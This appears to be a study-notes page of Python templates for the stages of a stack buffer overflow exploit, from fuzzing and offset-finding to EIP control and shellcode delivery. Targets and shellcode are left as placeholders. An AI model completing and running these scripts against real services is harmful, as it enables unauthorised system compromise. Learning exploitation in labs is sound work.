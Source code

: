 ### Python Templates for BOF                                                                                                        [Go Back](bufferoverflows.md)

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Python
#!/usr/bin/python

import socket,sys
from time import sleep

buffer = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21 

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send(buffer + "\r\n")
        s.close()
        sleep(1)
        buffer += "A" * 100
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
### Finding Offset
```Python
#!/usr/bin/python

import sys,socket
from time import sleep

buffer = #Based on at what bytes you get to EIP, generate your pattern and insert it here, example "AAAA"
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send(buffer + "\r\n")
    s.close()
except:
    print("Debugger crashed at %s bytes" % str(len(buffer)))
    sys.exit
```
### Overwriting EIP
```Python
#!/usr/bin/python

import socket,sys

buffer = #Based on the offset bytes, place your pattern here 
buffer += "B" * 4
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
### Owning EIP
```Python
#!/usr/bin/python

import socket,sys

buffer = "A" * (Offset Value)
buffer += #Address of EIP
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
### Getting a Shell
```Python
#!/usr/bin/python

import socket

shellcode = #Place your shellcode here
buff = "A" * (Offset Value)
buff += #Address of EIP 
buff += "\x90" * (8/10/12/16/20...) 
buff += shellcode
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send(buff + "\r\n")
s.close()
```
